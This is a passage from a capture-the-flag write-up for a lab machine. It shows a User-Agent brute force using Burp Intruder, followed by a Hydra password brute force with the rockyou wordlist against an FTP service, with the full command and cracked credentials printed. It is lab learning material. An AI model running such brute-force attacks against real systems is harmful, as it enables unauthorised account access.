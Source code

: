
### Port 80

When we go to the ip with Firefox we have a blank page with this text:
```text
Dear agents, 

Use your own codename as user-agent to access the site. 

From,
Agent R
```

So, i guess that R is the code name of one agent.

Let's bruteforce codename from A to Z to access the website

We can use BurpSuite to do this.

First, we add tags around User-agent and burp will replace this user-agent by our text (here, all the letters of the alphabet).

![Tags](../../assets/agent_sudo/add_tags.png)

Now, we choose by what we want to replace the user-agent on each request.

![payloads](../../assets/agent_sudo/put_alph_as_letters.png)

After what we can press "start attack" and see results.

![result](../../assets/agent_sudo/looking_status.png)

By looking result we see that the status is different for "C". We have a redirection

We have this message : 

```text
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! 

From,
Agent R
```

So a user “chris” have a weak password.
We can try to bruteforce the FTP server or the SSH one.
We also discover an Agent J.

Let's use Hydra to bruteforce the FTP server with rockyou.


```shell
└─$ hydra -s 21 -l chris -P /usr/share/wordlists/rockyou.txt -t 16 10.10.87.101 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-06 10:52:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.87.101:21/
[21][ftp] host: 10.10.87.101 login: chris password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-06 10:53:29

┌──(kali㉿kali)-[~/Desktop/ctf]
└─$ 
```

